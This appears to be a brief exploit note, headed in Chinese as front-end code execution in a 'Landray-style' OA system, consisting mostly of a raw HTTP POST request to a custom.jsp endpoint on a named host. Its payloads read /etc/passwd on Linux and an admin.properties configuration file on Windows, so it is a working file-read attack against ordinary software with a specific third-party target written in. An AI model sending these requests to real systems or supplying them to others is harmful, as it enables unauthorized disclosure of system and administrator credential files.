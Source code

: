 ## 某凌OA前台代码执行
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: www.ynjd.cn:801
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: /
Connection: Keep-Alive
Content-Length: 42
Content-Type: application/x-www-form-urlencoded

var={"body":{"file":"file:///etc/passwd"}}
```
var={"body":{"file":"file:///etc/passwd"}}  // linux
var={"body":{"file":"/WEB-INF/KnssConfig/admin.properties"}}  //windows
